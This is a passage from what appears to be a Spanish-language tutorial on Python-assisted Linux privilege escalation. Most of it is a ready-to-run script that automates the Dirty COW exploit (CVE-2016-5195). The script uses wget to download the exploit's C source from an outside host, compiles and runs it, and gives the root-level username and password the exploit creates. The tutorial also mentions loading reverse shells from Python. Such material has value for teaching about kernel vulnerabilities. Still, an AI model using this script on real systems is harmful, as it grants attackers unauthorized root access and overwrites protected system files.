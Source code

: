 ##### Pero desde Python, puedes hacer algo como:

```python
import os
os.system("gcc /tmp/dirty.c -o /tmp/dirty -pthread && chmod +x /tmp/dirty")
os.system("/tmp/dirty")  # Ejecuta el exploit
```

---

### 🐍 ¿Cómo se usa Python en la elevación de privilegios?

1. **Automatizar explotación**:

   - Compilar C, ejecutar, limpiar.

2. **Cargar payloads en memoria**

   - Como shells reversas, directamente desde Python.

3. **Validar vulnerabilidades**

   - Usar Python para inspeccionar versiones, configuraciones, permisos, flags SUID.

---

### 🛠️ Ejemplo práctico: Script Python para automatizar Dirty COW (CVE-2016-5195)

#### 🐮 ¿Qué hace Dirty COW?

Permite modificar archivos de solo lectura (como `/etc/passwd`) y crear un usuario root temporal.

#### 📜 Python + C exploit

##### Paso 1: Guarda el siguiente exploit como `dirtycow.py` (automatiza todo)

```python
import os

print("[*] Descargando DirtyCOW...")
os.system("wget https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c -O /tmp/dirty.c")

print("[*] Compilando exploit...")
os.system("gcc /tmp/dirty.c -o /tmp/dirty -pthread")

print("[*] Ejecutando exploit...")
os.system("/tmp/dirty")

print("[*] Intenta iniciar sesión como usuario 'firefart' con contraseña 'dirtyCowFun'")
```

> 🔑 Este exploit crea un usuario `firefart` con contraseña `dirtyCowFun`.

##### Paso 2: Ejecuta el script
